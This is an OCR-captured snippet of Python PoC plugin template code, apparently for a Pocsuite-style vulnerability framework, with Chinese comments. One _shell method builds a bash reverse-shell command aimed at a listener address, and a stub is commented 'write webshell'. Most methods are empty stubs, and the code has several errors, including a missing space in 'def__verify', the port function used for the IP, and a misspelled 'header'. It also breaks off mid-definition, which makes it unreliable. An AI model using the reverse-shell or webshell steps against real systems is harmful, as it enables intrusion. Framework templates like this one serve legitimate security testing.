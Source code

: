 ```python
        pass

    def _shell(self):
        """
        shell模式下，只能运行单个PoC脚本，控制台会进入shell交互模式执行命令及输出
        """
        cmd = REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port())
        # 攻击代码 execute cmd
        pass


def other_fuc():
    pass


def other_utils_func():
    pass


# 注册 DemoPOC 类
register_poc(DemoPOC)

```

```python
def__verify(self):
    Output = Output(self)
    Req = requests.Session()
    Req.get(self.url)
    r= Req.get(self.url,headers={})
    
    if 'phpinfo' in r.text:
        output.success({"Stdout":"存在漏洞"})
    else:
        output.fail("漏洞不存在")
        
def _attack(self):
    pass
	#写webshell
def _shell(self):
    rcv_ip = get_listener_port()#监听ip
    rec_port = get_listener_port()#监听端口
    Req = requests.Session()
    
    Req.get(self.url)
    
    r = Req.get(self.url,header={})
def _
```

